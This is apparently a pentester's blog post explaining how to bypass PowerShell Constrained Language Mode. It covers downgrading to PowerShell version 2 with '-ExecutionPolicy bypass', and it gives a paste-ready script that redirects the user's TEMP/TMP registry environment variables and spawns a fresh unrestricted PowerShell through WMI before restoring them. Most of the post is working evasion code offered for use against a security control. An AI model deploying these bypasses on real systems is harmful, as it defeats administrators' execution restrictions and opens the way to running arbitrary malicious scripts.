 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run:

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

I will leave it to the reader to make sure that the default is using CLM and not Full mode if testing.

Or if you want to change the PowerShell version then simplay add the arguments as per above.

The most common route is to simply downgrade to version 2 by using the '--version 2' argument.


```
powershell.exe -Version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not be what you want to do.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)


```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments as per above.

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```